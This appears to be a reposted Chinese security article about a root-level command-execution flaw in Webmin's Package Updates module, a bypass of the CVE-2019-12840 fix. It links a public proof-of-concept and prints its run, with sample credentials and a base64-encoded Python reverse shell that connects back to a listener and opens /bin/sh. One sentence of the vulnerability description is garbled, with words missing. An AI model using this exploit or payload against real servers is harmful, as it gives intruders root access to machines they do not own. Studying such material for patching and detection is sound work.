 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Kuz7L4BMBX3tKkAazrD8jw)

漏洞详情：

        Webmin 是 Webmin 社区的一套基于 Web 的用于类 Unix 操作系统中的系统管理工具。Webmin 1.962 版本及之前版本存在安全漏洞，该漏洞允许执行任意命令。任何被授权使用 Package Updates 模块的用户都可以使用根权限通过包含和的向量执行任意命令。

此漏洞绕过了针对 CVE-2019-12840 采取的措施，并将其转换为新的载体。

CVE-2019-12840-POC：

https://github.com/KrE80r/webmin_cve-2019-12840_poc

```
$ python3 CVE-2019-12840.py  -u https://192.168.122.10 -U matt -P Secret123 -lhost 192.168.122.1 -lport 443

  _______      ________    ___   ___  __  ___        __ ___   ___  _  _    ___  
 / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \      /_ |__ \ / _ \| || |  / _ \ 
| |     \ \  / /| |__ ______ ) | | | || | (_) |______| |  ) | (_) | || |_| | | |
| |      \ \/ / |  __|______/ /| | | || |\__, |______| | / / > _ <|__   _| | | |
| |____   \  /  | |____    / /_| |_| || |  / /       | |/ /_| (_) |  | | | |_| |
 \_____|   \/   |______|  |____|\___/ |_| /_/        |_|____|\___/   |_|  \___/ 
                                                                              
                           by KrE80r 

             Webmin <= 1.910 RCE (Authorization Required)

usage: python CVE-2019-12840.py -u https://10.10.10.10 -U matt -P Secret123 -c "id"
usage: python CVE-2019-12840.py -u https://10.10.10.10 -U matt -P Secret123 -lhost <LOCAL_IP> -lport 443


[*] logging in ...

[+] got sid cd97c25b388e8ecd36f15571b223a8bf

[*] sending command python -c "import base64;exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMTIyLjEiLDQ0MykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk='))"
```